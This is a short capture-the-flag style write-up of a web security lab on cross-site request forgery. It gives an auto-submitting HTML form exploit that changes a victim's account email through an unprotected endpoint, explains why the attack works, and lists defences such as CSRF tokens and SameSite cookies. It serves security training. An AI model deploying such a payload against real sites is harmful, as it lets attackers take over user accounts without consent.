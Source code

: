 # CSRF vulnerability with no defenses

*A concise write‑up using my original steps (verbatim flow) with small, accurate notes. For authorized lab use only.*

---

## 🎯 Goal
**Deliver a link to a victim that, when visited, changes their account email.**

---

## ✅ My Exact Steps (verbatim, lightly corrected)

1. **GOAL:** deliver a link to a victim; once pressed it will change their email address on the account.
2. Get the request endpoint for changing email: **`/my-account/change-email`**.
3. There’s **no CSRF token** or origin check, so we can control the `email` parameter and trick the victim into sending it.
4. The client activates it via a **link to our website** (attacker‑controlled page).
5. We probably **can’t use XHR** due to **CORS** (victim’s cookies aren’t usable cross‑origin in fetch/XHR).
6. So we make the victim submit a **cross‑site form** that auto‑submits with JS.
7. **Exploit page (host this and send the link):**
   ```html
     <!-- Auto‑submitting CSRF form -->
     <form id="autoForm"
           action="https://0a9200f303dce26a80a9851300290054.web-security-academy.net/my-account/change-email"
           method="POST">
       <input type="hidden" name="email" value="abc@gmail.com">
     </form>

     <script>
       // Auto‑submit as soon as the page loads
       document.getElementById("autoForm").submit();
     </script>
   ```
8. **Lab solved!** ✅

---

## 🧠 Why This Works (minimal notes)

- **CSRF basics:** The target site accepts a **state‑changing POST** without CSRF defenses (no per‑request token, no Origin/Referer checks). When the victim’s browser loads your page, their **session cookies** for the target are **automatically sent** with the cross‑site form POST, authenticating the change.
- **Why not XHR?** **CORS** prevents your JS from reading responses or sending credentials unless the target opts in. Classic CSRF uses **plain HTML forms**, which do **not** require CORS.
- **SameSite cookies:** Many labs set cookies without `SameSite` or with `SameSite=None; Secure`, so cross‑site form POSTs still include cookies. If `SameSite=Lax/Strict` blocks it, you’d need a top‑level navigation or other techniques; this lab allows the simple form POST.
- **Hardening (defense perspective):** Use **unpredictable CSRF tokens**, verify **Origin/Referer**, and consider **SameSite=Lax/Strict** where viable.

> Keep this strictly within authorized testing scope. Do not target real users or production systems without explicit permission.
